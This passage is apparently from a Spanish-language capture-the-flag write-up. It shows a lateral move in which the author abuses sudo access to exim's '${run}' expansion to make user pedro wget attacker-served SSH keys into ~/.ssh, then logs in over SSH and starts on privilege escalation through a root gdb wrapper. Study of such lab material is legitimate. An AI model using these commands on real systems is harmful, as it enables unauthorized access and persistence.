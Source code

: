 ```
cp /home/darks/.ssh/id_rsa . && cp /home/darks/.ssh/id_rsa.pub . && cp id_rsa.pub authorized_keys
```

a continuacion, los archivos `authorized_keys` y `id_rsa.pub` los cargo en `/home/pedro/.ssh`. Para esto me levanto un server python en mi maquina atacante 

```bash
python3 -m http.server 80
```

ahora descargo las llaves en el directorio del usuario pedro con los siguiente comandos

```bash
sudo -u pedro /usr/sbin/exim -be '${run{/bin/bash -c "wget http://172.17.0.1/authorized_keys -O /home/pedro/.ssh/authorized_keys"}}'
```

```bash
sudo -u pedro /usr/sbin/exim -be '${run{/bin/bash -c "wget http://172.17.0.1/id_rsa.pub -O /home/pedro/.ssh/id_rsa.pub"}}'
```

por ultimo validamos que los archivos esten donde deben estar con el comando

```bash
sudo -u pedro /usr/sbin/exim -be '${run{/bin/bash -c "ls -la /home/pedro/.ssh/"}}'
```
```bash
total 16
drwx------ 2 pedro pedro 4096 Mar 12 22:58 .
drwx------ 1 pedro pedro 4096 Mar 12 22:45 ..
-rw------- 1 pedro pedro  737 Mar 12 22:54 authorized_keys
-rw------- 1 pedro pedro  737 Mar 12 22:54 id_rsa.pub
```
ya todo listo, solo queda ganar acceso via `ssh`

```bash
ssh -i id_rsa pedro@172.17.0.2
```

# Privilege Escalation

## pedro

en el directorio de este usuario se encuentran 2 archivos, un binario "hall" y un mail

mail
```
Pedro, the hall binary was found by the Inter Corp administrators and they expect you to analyze it. 
I have enabled gdb '/usr/local/bin/secure_gdb' so that if necessary you can debug it as root and, 
for security reasons, you know that I limit functions in the debugger to avoid problems.
```
segun el mail, han habilitado gdb para ser usado con sudo a traves del script `/usr/local/bin/secure_gdb` y si chequeo puedo ejecutar dicho script como root
